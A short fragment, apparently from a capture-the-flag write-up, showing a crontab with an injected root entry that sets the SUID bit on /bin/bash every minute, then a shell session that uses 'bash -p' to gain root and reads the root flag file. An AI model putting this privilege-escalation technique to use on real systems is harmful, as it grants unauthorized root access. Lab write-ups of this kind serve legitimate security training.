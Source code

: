 ```
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    chmod 4755 /bin/bash
#
-bash-5.1$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
e0484aa963d359ba20e42240ea7c153d
bash-5.1# 
```
